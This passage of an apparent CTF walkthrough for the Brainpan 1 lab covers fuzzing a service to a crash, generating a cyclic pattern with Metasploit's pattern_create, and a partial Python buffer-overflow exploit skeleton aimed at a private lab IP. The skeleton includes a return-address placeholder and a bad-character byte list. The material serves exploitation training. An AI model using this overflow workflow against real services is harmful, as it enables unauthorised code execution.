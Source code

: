 This all works by escaping the buffer for a variable and pushing the data we want to an area we can write/execute. :wink:

# Fuzzing

In order to fuzz we'll run `python3 fuzz.py`, returning an output of bytes: 

![bytes](/assets/images/brainpan1/fuzz.png)


In our case runing the fuzz.py we get the crash output near `518`.

Now that we have the value that crashes the app, we can add roughly 400 to the number and generate a payload with something like:  
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 900 | xclip -sel c`

This is called a cyclic pattern, this pattern allows us to find the memory address that we are at when this executes. This allows us to then change the payload to something mallicious and keep it in the correct spot to execute.

# Finding the offset

```
import socket
import time

ip = "192.168.3.129"
port = 9999

prefix = ""
offset = 0
overflow = "A" * offset
retn = "BBBB"
# retn = "\xDF\x14\x50\x62"
# padding = "\x90" * 16
padding = ""
name = ""
payload = ""
# payload = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
    s.connect((ip, port))
```